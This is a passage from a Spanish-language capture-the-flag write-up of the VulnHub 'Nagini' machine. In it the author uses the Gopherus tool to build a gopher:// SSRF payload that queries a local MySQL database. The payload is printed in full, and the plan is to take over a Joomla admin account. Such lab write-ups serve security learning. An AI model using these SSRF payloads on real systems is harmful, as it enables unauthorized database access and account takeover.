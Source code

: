 
Lo mismo:

<p align="center">
<img src="/assets/images/vulnhub-writeup-nagini/Captura15.png">
</p>

Obtuvimos un usuario llamado **site_admin**, que al parecer es un superusuario y el hash de su contraseña.

Podríamos tratar de crackear el hash, pero esto no va a funcionar.

Lo que haremos, será cambiar la contraseña del superusuario, para poder entrar al login de **Joomla**.

Para hacer esto, necesitamos saber si tenemos los privilegios suficientes para poder modificar la BD de **Joomla**. Esto lo podemos hacer con la siguiente query `show grants for 'goblin'@'localhost';`. Esta query nos da los privilegios de nuestro usuario. 
```bash
gopherus --exploit mysql


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$

For making it work username should not be password protected!!!

Give MySQL username: goblin
Give query to execute: show grants for 'goblin'@'localhost';

Your gopher link is ready to do SSRF : 

gopher://127.0.0.1:3306/_%a5%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%67%6f%62%6c%69%6e%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%26%00%00%00%03%73%68%6f%77%20%67%72%61%6e%74%73%20%66%6f%72%20%27%67%6f%62%6c%69%6e%27%40%27%6c%6f%63%61%6c%68%6f%73%74%27%3b%01%00%00%00%01
```
